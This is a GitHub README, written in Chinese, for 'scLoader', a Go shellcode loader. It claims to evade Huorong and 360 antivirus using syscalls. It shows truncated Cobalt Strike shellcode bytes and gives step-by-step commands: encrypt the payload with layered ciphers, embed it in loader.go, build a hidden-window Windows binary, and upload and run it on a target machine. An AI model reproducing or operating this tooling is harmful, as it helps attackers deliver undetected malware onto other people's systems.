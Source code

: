# scLoader: shellcode 加载器

## 效果
目前测试了火绒和360，静态动态都能免杀，静态VT检测效果一般

## 特点
- 基于Syscall进行免杀shellcode加载
- 加密方式可以自己选择

## 支持shellcode格式
目前支持CS中C语言格式和Raw格式的shellcode

**C语言字符串格式shellcode**
```
/* length: 891 bytes */
unsigned char buf[] = "\xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00\x00\x41\x51\x41\x50\x52......";
```

**纯十六进制格式的shellcodes**
```
fc48 83e4 f0e8 c800 0000 4151 4150 5251
5648 31d2 6548 8b52 6048 8b52 1848 8b52
2048 8b72 5048 0fb7 4a4a 4d31 c948 31c0
ac3c 617c 022c 2041 c1c9 0d41 01c1 e2ed
```

## 使用

1、使用sparrow.exe加密shellcode

在CS中生成需要格式的shellcode，将CS生成的原始.bin文件或.c文件放在sparrow.exe同一目录，使用命令

```
#.bin文件
.\sparrow.exe -e des,rc4,aes,3des,base64 -f .\payload.bin
#.c文件
.\sparrow.exe -e des,rc4,aes,3des,base64 -f .\payload.c
```
***注意：-e参数必须使用base64编码结尾***

![](https://github.com/Peithon/scLoader/blob/master/imgs/shellcode-encode.png)

2、将加密之后的shellcode填充到loader.go中的shellcode变量

3、按照加密顺序填充到loader.go中的encodestr变量中

![](https://github.com/Peithon/scLoader/blob/master/imgs/add-info.png)

4、编译loader.go文件
```
go build -trimpath -ldflags="-w -s -H=windowsgui" loader.go
```

5、上传到目标机器，使用`loader.exe -fuck`命令加载shellcode


